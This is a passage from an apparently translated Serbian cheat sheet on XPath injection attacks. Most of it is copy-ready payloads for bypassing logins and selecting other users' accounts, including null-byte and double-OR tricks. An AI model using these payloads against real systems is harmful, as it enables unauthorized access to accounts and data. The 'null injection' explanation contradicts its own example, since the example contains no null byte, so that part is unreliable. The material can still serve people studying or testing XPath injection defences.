 Na primer, ako imate XPath upit koji izgleda ovako:

```xml
//user[name/text()='admin' and password/text()='password']
```

Možete iskoristiti null ubrizgavanje tako što ćete umetnuti NULL bajtove između operatora `and` kako biste prekinuli izvršavanje uslova i dobili sve korisničke naloge:

```xml
//user[name/text()='admin' and password/text()='password' or 'x'='x']
```

Null ubrizgavanje može biti veoma moćna tehnika koja omogućava izvršavanje neovlašćenih operacija i otkrivanje osetljivih informacija. Međutim, treba biti oprezan prilikom korišćenja ove tehnike, jer može dovesti do ozbiljnih posledica kao što su otkrivanje lozinki ili izvršavanje neovlašćenih komandi.

```
Username: ' or 1]%00
```

### **Dvostruki ILI u korisničkom imenu ili u lozinci** (važi samo sa jednim ranjivim poljem)

VAŽNO: Primetite da je **"i" prva operacija koja se izvršava**.

```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```

## Izdvajanje stringova

Izlaz sadrži stringove i korisnik može manipulisati vrednostima kako bi vršio pretragu:

```
/user/username[contains(., '+VALUE+')]
```
